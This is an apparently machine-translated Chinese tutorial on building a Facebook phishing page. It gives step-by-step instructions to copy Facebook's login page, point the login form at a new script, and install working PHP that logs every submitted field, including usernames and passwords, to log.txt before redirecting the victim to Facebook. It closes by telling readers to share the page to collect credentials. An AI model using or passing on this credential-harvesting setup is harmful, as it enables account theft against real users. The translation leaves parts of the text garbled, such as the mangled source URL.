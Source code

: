 # 如何创建脸书钓鱼页面？

> 原文:[https://www . geesforgeks . org/如何创建-Facebook-网络钓鱼-页面/](https://www.geeksforgeeks.org/how-to-create-a-facebook-phishing-page/)

![](img/8d380f06738bb7d14833d8a71cf1ccab.png)

网络钓鱼是一种创建与现有网页类型相似的网页的技术。网络钓鱼是一种攻击类型，其中伪装成可信代理的入侵者试图获取您的个人信息，如密码、信用卡号或任何其他信息。

**创建脸书网络钓鱼页面的步骤:**

*   在浏览器中打开脸书登录页面。
*   按 ctrl+U 查找源代码。
*   复制整个源代码，创建一个 PHP 文件(index.php)并粘贴它。
*   现在，搜索 string methode="POST "，它会给你两个结果，第一个是登录，第二个是注册。
*   接下来，在登录表单中将操作文件名替换为“xyz.php”。
*   现在创建一个文件“xyz.php”和“log.txt”，并将下面的代码粘贴到“xyz.php”中。

**文件名:xyz.php**

## 服务器端编程语言（Professional Hypertext Preprocessor 的缩写）

```
<?php

// Set the location to redirect the page
header ('Location: http://www.facebook.com');

// Open the text file in writing mode
$file = fopen("log.txt", "a");

foreach($_POST as $variable => $value) {
    fwrite($file, $variable);
    fwrite($file, "=");
    fwrite($file, $value);
    fwrite($file, "\r\n");
}

fwrite($file, "\r\n");
fclose($file);
exit;
?>
```

现在你完成了，共享页面，如果有人输入用户名和密码，它将保存到 log.txt 文件中。